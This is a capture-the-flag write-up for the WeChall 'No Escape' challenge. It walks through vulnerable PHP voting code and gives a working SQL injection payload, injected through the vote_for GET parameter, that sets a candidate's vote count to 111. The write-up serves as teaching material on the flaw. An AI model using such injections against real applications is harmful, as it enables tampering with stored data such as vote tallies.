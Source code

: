 # [No Escape (Exploit, PHP, MySQL)](http://www.wechall.net/challenge/no_escape/index.php)
## Problem
```
The small gizmore software company is expanding, and got contracted to create the new online votings for presidental election in 2012.
The current script is in alpha phase, and we`d like to know if it`s safe.
To prove me wrong you have to set the votecount for at least one of the candidates to 111. There is a reset at 100.
Again you are given the sourcecode, also as highlighted version.

Good Luck!
```
[SourceCode](http://www.wechall.net/challenge/no_escape/code.include) and [Highlighted Version](http://www.wechall.net/challenge/no_escape/index.php?highlight=christmas)

![Menu](pic/vote_menu.PNG)

## Let's Vote First!
I like bill, (which is money I mean) so I voted for Bill!

![Bill!!!!](pic/vote_for_bill_menu.PNG)

When you press a button for candidate, you can see that information of which candidate we choose is passed by GET method. If you choose bill, GET parameter would look like `?vote_for=bill`, and this applies to all candidates (Name changes, obviously)

![GET](pic/vote_for_bill.PNG)

So if we make a candidate's votecount to 111, we can win the game. Sadly, when a candidate's votecount reaches 100, it resets itself to 0. (To win the election, you must have exactly 99 voters, wow) Let's look at the code which triggers this action.

## noesc_stop100 Function
```Javascript
/**
 * Reset when we hit 100. Or call challenge solved on 111. * @return void
 */
function noesc_stop100()
{
        $votes = noesc_getVotes();
        foreach ($votes as $who => $count)
        {
                if ($count == 111) {
                        noesc_solved();
                        noesc_resetVotes();
                        break;
                }
                
                if ($count >= 100) {
                        noesc_resetVotes();                      
                        break;
                }
        }
}
```
This is the function which resets when a candidate's votecount reaches 100. It also hold codes for solving the problem. To solve this problem, votecount should be exact 111, not 112. And if not, it sees whether votecount exceeds 100, and resets votecount if it does.
Let's find where this code is executed.

## noesc_voteup Function
```Javascript
/** * Count a vote.
 * Reset votes when we hit 100 or 111.
 * TODO: Implement multi language
 * @param string $who
 * @return void */
function noesc_voteup($who)
{
        if ( (stripos($who, 'id') !== false) || (strpos($who, '/') !== false) ) {
                echo GWF_HTML::error('No Escape', 'Please do not mess with the id. It would break the challenge for others', false);                return;
        }
 
 
        $db = noesc_db();
        $who = GDO::escape($who);
        $query = "UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1";
        if (false !== $db->queryWrite($query)) {
                echo GWF_HTML::message('No Escape', 'Vote counted for '.GWF_HTML::display($who), false);
        }        
        noesc_stop100();
}
```
Basically, code builds query with the string `$who`, and queries to database. And calls noesc_stop100 function, which resets votecount. The point of this code is that this code doesn't check anything from string `$who` which can cause some problem. We can simply edit query in the code with some injection.

## Database
```Javascript
/**
 * Create table (called by install-script) * The table layout is crappy, there is only 1 row in the table Oo.
 * @return boolean
 */
function noesc_createTable()
{        
        $db = noesc_db();
        $query =
                "CREATE TABLE IF NOT EXISTS noescvotes ( ".
                "id     INT(11) UNSIGNED PRIMARY KEY, ". # I could have one row per candidate, but currently there is only one global row(id:1). I know it`s a bit unrealistic, but at least it is safe, isn`t it?
                "bill   INT(11) UNSIGNED NOT NULL DEFAULT 0, ". # bill column                
                "barack INT(11) UNSIGNED NOT NULL DEFAULT 0, ". # barack column
                "george INT(11) UNSIGNED NOT NULL DEFAULT 0 )"; # george columb
        
        if (false === $db->queryWrite($query)) {
                return false;        }
        return noesc_resetVotes();
}
```
There's only one row (id=1), which holds candidates' votecount.
## Changing Query
Building query is this.
```
$query = "UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1";
```
We can inject anything in variable `$who`.
```
?vote_for=biil`=`bill`+111 WHERE id=1 -- -
"UPDATE noescvotes SET `bill`=`bill`+111 WHERE id=1 -- -$who`=`$who`+1 WHERE id=1"
```
This will increase bill's votecount straight to 111. Also, don't forget to change `+` to `%2B` for url encoding. If don't it will cause an error in SQL.

## So who's the winner?
When I tried with query with `WHERE id=1`, wechall rejected for following reason. Query doesn't matter even we remove WHERE clause since there are only one global row(wow).
So, if you remove WHERE clause, query will be successfully done and problem will be solved.

![Yes!](pic/solved.PNG)
